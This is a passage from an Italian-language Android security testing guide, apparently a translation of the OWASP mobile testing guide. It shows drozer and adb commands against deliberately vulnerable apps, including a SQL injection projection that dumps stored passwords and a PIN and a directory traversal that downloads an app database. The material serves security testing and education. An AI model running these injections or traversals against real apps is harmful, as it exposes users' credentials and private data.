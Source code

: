 Oppure per estrarre informazioni sensibili

```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```

```
| Password | pin |
| thisismypassword | 9876 |
```

Questo processo può essere automatizzato lanciando:

```sh
dz> run scanner.provider.injection -a com.mwr.example.sieve
```

I content provider possono fornire accesso anche al filesystem.
Ciò permette alle app di condividere i file (la sandbox Android di solito lo evita).
Questi content provider sono suscettibili a directory traversal.

```sh
dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db
```

Puoi automatizzare la ricerca di content provider suscettibili a directory traversal lanciando:

```sh
dz> run scanner.provider.traversal -a com.mwr.example.sieve
```
	
```
Scanning com.mwr.example.sieve...
Not Vulnerable:
  content://com.mwr.example.sieve.DBContentProvider/
  content://com.mwr.example.sieve.DBContentProvider/Keys
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider

Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```
	
Puoi usare anche `adb` per interrogare i content provider:

```sh
$ adb shell content query --uri content://com.owaspomtg.vulnapp.provider.CredentialProvider/credentials
```

## Checking for Sensitive Data Disclosure Through the User Interface (MSTG-STORAGE-7)

I dati sensibili inseriti dall'utente potrebbero essere esposti se non opportunamente mascherati dall'app, se mostrati in chiaro.
